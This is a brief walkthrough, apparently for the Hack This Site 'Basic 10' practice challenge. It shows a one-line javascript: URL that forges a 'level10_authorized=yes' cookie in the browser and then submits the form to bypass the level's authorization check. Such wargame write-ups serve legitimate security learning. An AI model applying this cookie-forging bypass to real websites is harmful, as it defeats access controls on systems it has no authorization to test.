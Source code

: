 # **HTS Basic 10**
![](https://i.imgur.com/EkdBWv0.png)

```
javascript:alert(document.cookie="level10_authorized=yes");
```

![](https://i.imgur.com/nqy6g5Z.png)

Then we get the alert box.

![](https://i.imgur.com/vg14qlU.png)

Success to set the value content in this cookie.

Then, just press the submit botton without value.


